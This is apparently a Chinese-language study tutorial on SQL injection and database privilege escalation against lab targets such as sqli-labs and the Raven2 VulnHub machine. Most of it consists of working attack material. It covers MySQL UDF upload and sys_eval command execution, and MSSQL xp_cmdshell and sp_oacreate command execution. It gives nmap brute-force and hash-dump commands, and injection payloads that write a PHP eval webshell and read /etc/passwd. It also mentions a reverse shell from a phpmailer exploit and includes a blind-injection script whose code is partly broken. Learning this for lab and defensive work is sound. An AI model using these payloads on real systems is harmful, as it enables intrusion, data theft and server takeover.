


### 3.5.连接一句话

菜刀下载：https://github.com/raddyfiy/caidao-official-version

> 取代菜刀：**蚁剑**：https://github.com/AntSwordProject/AntSword-Loader or **Cknife**：https://github.com/Chora10/Cknife

通过菜刀连接一句话木马



如果是PHP5则没有问题，如果是PHP7，会出现：`Cannot call assert() with string argument dynamically`的提示

> 解决：可以参考我写的这篇文章：https://www.cnblogs.com/dotnetcrazy/p/11407505.html




### 3.6.上传文件

根据系统去`metasploit`目录中下载对应的`udf文件`

> PS：https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql



通过菜刀上传到插件目录：`D:\Program Files (x86)\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\`

> PS：这边能直接上传，也就免去先上传大马再通过大马上传了



PS：**Win使用dll，Linux使用so**


### 3.7.创建功能函数

url构造：`index.php?id=1;create function sys_eval returns string soname 'udf.dll';#`



发现执行命令后不成功



PS：开启常规日志可以看到请求的SQL



发现被屏蔽了（可能是因为php的query只能执行一条语句的原因）

> PS：大家想到什么一条SQL执行完查询和创建函数的可以说下



换条思路：读取配置文件（PHP连接MySQL的时候可能有些敏感信息）

> PS：Net的`web.conf`也一样

url构造：`index.php?id=1 union select load_file('D:\\Program Files (x86)\\phpstudy_pro\\WWW\\index.php'),2`

> PS：其实我们刚开始信息获取的时候就读过一次了，现在又绕过来了。。。



连接远程服务器：`./mysql -h'192.168.36.144' -uroot -p`



PS：win使用：`create function sys_eval returns string soname 'udf.dll';`

> Linux使用：`create function sys_eval returns string soname 'udf.so';`


### 3.8.执行系统命令

这时候你通过浏览器执行远程命令也是可以的：

> PS：url构造：`index.php?id=1 union select sys_eval('whoami'),2`



PS：删除函数：`drop function sys_eval;`


## 4 mysql**的**udf 使用


介绍：

mysql(user defined function)用户自定义函数，是mysql的一个拓展接口。用户可以通过自定义函数拓展mysql的功能。

其添加的新函数都可以在sql语句中调用。

原理：

利用了数据库的root高权限，创建系统函数的udf动态函数库，从而就可以利用系统权限进行提权操作。提权：

```
1、查询导出路径
2、上传udf
3、导出udf
4、创建函数
5、执行命令
```

详细：

1、查询导出路径和条件

```
show variables like '%secure%';
select @@plugin_dir;
select @@version_compile_os,@@version_compile_machine;
```




注意

如该目录不存在，则需要创建

select @@basedir;

select 'It is dll' into dumpfile 'C:\\ProgramFile\\MYSQL路径\\lib::$INDEX_ALLOCATION';

select 'It is dll' into dumpfile 'C:\\ProgramFile\\MYSQL路径\\lib\\plugin::$INDEX_ALLOCATION';


2、上传udf




sqlmap中的udf需要解码

`sqlmap/extra/cloak/cloak.py -d -i udf路径文件`


将udf文件进行十六进制编码，然后创建一张临时表，插入udf数据

```
crate table temp(data blob);
insert into temp(data)values((convert($binaryCode_udf_data,char))));

```


注意

对udf进行十六进制编码，可以首先在本地创建临时表，利用hex()函数进行编码导入，然后再直接导出

```
create table temp_test(data blob);

insert into temp_test(data) values(hex(load_file('udf路径文件'))); select data from temp_test into dumpfile 'udf路径文件';
```


3、导出udf

`select data from temp into dumpfile '路径\\plugin\udf.dll';`

` drop table temp;`


4、创建函数

`crate function sys_eval returns string soname 'udf.dll';`


5、执行命令

`select sys_eval(command); drop function sys_eval;`

`delete from mysql.func where name = 'sys_eval';`


以Raven2靶机的udf[提权作为例子](https://www.vulnhub.com/entry/raven-2%2C269/)[靶机下载](https://www.vulnhub.com/entry/raven-2%2C269/)

存活扫描：

netdiscover

端口扫描：




web服务踩点：


目录扫描：

`[dirb ](http://192.168.0.104/)http://192.168.0.104/ /usr/share/dirb/wordlists/big.txt`




博客扫描：

`[wpscan --url ](http://192.168.0.104/wordpress/)http://192.168.0.104/wordpress/ -e u`




发现两个用户


目录踩点：










phpmailer挖掘：

`searchsploit phpmailer`



修改exp:

安装py库requests_toolbelt #coding:utf-8

靶机ip和文件 攻击机ip和端口




触发反弹shell:



查找到数据库账户信息：

flag2.txt



flag3.png













mysql之udf提权：


编译


上传


登陆数据库


导入数据库


导出数据库


创建函数


使用函数


执行命令


## 5 mssql**的**xp_cmdshell**与**sp_oacreate


介绍：

xp_cmdshell与sp_oacreate是mssql的存储过程的扩展，类似udf于mysql。

xp_cmdshell的利用：

```
exec sp_configure 'show advanced options',1;reconfigure; 
exec sp_configure 'xp_cmdshell',1;reconfigure;
exec master.dbo.xp_cmdshell 'command';
```

sp_oacreate的利用：

```
exec sp_configure 'show advanced options',1;reconfigure; 
exec sp_configure 'ole automation procedures',1;reconfigure;

declare @shell int
exec sp_oacreate 'wscript.shell',@shell out
exec sp_method @shell,'run',null,' c:\windows\system32\cmd.exe \c "command" ';
```


nmap对mmsql的支持：

```
# 爆破mssql用户名和密码：
nmap -p 1433 --script=ms-sql-brute.nse --script-args=userdb=/var/passwd,passdb=/var/passwd 192.168.1.1


# xp_cmdshell执行命令
nmap -p 1433 --script=ms-sql-xp-cmdshell.nse --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user" 192.168.1.1

#dump_hash
nmap -p 1433 --script=ms-sql-dump-hashes.nse --script-args mssql,username=sa,mssql.password=sa 192.168.1.1
```


# 六 sqli-labs 注入测试

## 1 环境搭建

```
#docker搭建sqli-labs
git clone https://github.com/c0ny1/vulstudy.git 
cd vulstudy/sqli-labs/
docker-compose up -d
```


## 2 联合注入、布尔盲注与延时注入


联合注入：


```
#注入点
http://192.168.3.6/Less-1/?id=1' 
http://192.168.3.6/Less-1/?id=1' or '1' or '1 
http://192.168.3.6/Less-1/?id=1' or '1=1-- - 
http://192.168.3.6/Less-1/?id=1' or '1=1--+
http://192.168.3.6/Less-1/?id=1' or 1=1%23

#判断字段数
http://192.168.3.6/Less-1/?id=1' order by 3 -- - 
http://192.168.3.6/Less-1/?id=1' order by 4 -- -

#数据库基本信息
http://192.168.3.6/Less-1/?id=0' union select 0,database(),version() -- - http://192.168.3.6/Less-1/?id=0' union select 0,current_user(),user() -- -

#数据库
http://192.168.3.6/Less-1/?id=0' union select  0,database(),group_concat(schema_name)from information_schema.schemata -- -


#数据表
http://192.168.3.6/Less-1/?id=0' union select 0,database(),group_concat(table_name)from information_schema.tables where table_schema=database() -- -


#数据列
http://192.168.3.6/Less-1/?id=0' union select 0,database(),group_concat(column_name)from information_schema.columns where table_schema=database() -- -


#数据
http://192.168.3.6/Less-1/?id=0' union select 0,group_concat(username),group_concat(password)from users -- -
```


写文件

```
http://192.168.3.6/Less-1/?id=0' union select null,null,'<?php @eval($_POST['Rj45']);?>' into outfile '/tmp/Rj45.php' -- -

#推荐进行十六进制编码
http://192.168.3.6/Less-1/?id=0' union select null,null,0x273C3F70687020406576616C28245F504F53545B27526A3435275D293B3F3E27 into outfile  '/tmp/Rj45.php' -- -

```


读文件

```
http://192.168.3.6/Less-1/?id=0' union select 0,load_file(''/tmp/Rj45.php'),load_file('/etc/passwd')-- -
```


布尔盲注：


```
注入点同上
#数据库基本信息
http://192.168.3.6/Less-5/?id=1' and ord(substr((database()),1,1))=ascii('a')%23

#数据库
http://192.168.3.6/Less-5/?id=1' and ord(substr((select schema_name from information_schema.schemata limit 0,1),1,1))=ascii('a') %23

#数据表

http://192.168.3.6/Less-5/?id=1' and ord(substr((select table_name from information_schema.tables limit 0,1),1,1))=ascii('a') where table_schema=database %23

#数据列

http://192.168.3.6/Less-5/?id=1' and ord(substr((select column_name from information_schema.columns limit 0,1),1,1))=ascii('a') where table_schema=database %23


#数据
http://192.168.3.6/Less-5/?id=1' and ord(substr((select username from users limit 0,1),1,1))=ascii('a') %23

#sqlmap：
[sqlmap -u ](http://192.168.3.6/Less-5/?id=1)http://192.168.3.6/Less-5/?id=1 -p id --technique B --v 3 --dump
```


脚本

```
import requests,string,re,time
def getDatabase(url,r):
	database = ''
	for i in range(1,10):
		for s in letters:
			ur = url+"ord(substr((database()),"+str(i)+",1))=ascii('"+s+"')%23"
			print(ur)
			res = r.get(ur)
			try:
				res = re.search(r'You are in',res.text).group(0)
				database +=s
			except:
				pass
		print('当前数据库为：'+database)
		
def getDatabases(url,r):
	databases = ''
	for i in range(1,10):
		for j in range(0,5):
			for s in letters:
				ur = url+"ord(substr((select schema_name from information_schema.schemata limit
"+str(j)+",1),"+str(i)+",1))=ascii('"+s+"')%23"
				print(ur)
				res = r.get(ur)
				try:
					res = re.search(r'You are in',res.text).group(0)			
					databases +=s
					time.sleep(3)
				except:
					pass
    		print('所有数据库为：'+databases)
    
def getTables(url,r):
    tables = ''
        for i in range(1,10):
            for j in range(0,5):
            for s in letters:
				ur = url+"ord(substr((select table_name from information_schema.tables limit "+str(j)+",1),"+str(i)+",1))=ascii('"+s+"') where table_schema=database %23"
                print(ur)
                res = r.get(ur)
                try:
                    res = re.search(r'You are in',res.text).group(0)
                    tables +=s
                    time.sleep(3)
                except:
               		 pass
	print('当前数据库的所有数据表为：'+tables)
	
def getColumns(url,r):
    columns = ''
    	for i in range(1,10):
    		for j in range(0,5):
    			for s in letters:
   					 ur = url+"ord(substr((select column_name from information_schema.columns limit "+str(j)+",1),"+str(i)+",1))=ascii('"+s+"') where table_schema=database %23"
   				 print(ur)
                res = r.get(ur)
                try:
                    res = re.search(r'You are in',res.text).group(0)
                    tables +=s
                    time.sleep(3)
                except:
                    pass
    print('当前数据库的所有数据表的所有数据列为：'+columns)
    
    
def getData(url,r):
    data = ''
    for i in range(1,20):
        for j in range(0,20):
            for s in letters:
				ur = url+"ord(substr((select username from users limit "+str(j)+",1),"+str(i)+",1))=ascii('"+s+"')%23"
			print(ur)
            res = r.get(ur)
            try:
                res = re.search(r'You are in',res.text).group(0)
                data +=s
                time.sleep(3)
            except:
				pass				
		print('数据：'+data)
		
		
if __name__ == '__main__':
    letters = string.ascii_letters
    url = "http://192.168.3.6/Less-5/?id=1' and "
    r = requests.Session()
    getDatabase(url,r)
    getDatabases(url,r)
    getTables(url,r)
    getTables(url,r)
    getData(url,r)                  

```


延时注入：

`[sqlmap -u ](http://192.168.3.6/Less-5/?id=1)http://192.168.3.6/Less-5/?id=1 -p id --technique T --time-sec 5 --v 3 --dump`


# 参考

1、BingSlient's Blog

https://bingslient.github.io/2019/08/26/MySQL%20%E5%87%BD%E6%95%B0%E5%8F%8A%E5%85%B6%E5%88%A9%E7%94%A8/

2、soya's blog

https://soyawww.github.io/2019/08/28/sql%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%EF%BC%88%E4%B8%89%EF%BC%89/

3、[逸鹏说道](https://www.cnblogs.com/dotnetcrazy/)  [信安周报-第04周：系统函数与UDF](https://www.cnblogs.com/dotnetcrazy/p/11406469.html)

4、信安之路小白学习记录

	第四周：数据库系统功能相关学习-Rj45-1424.pdf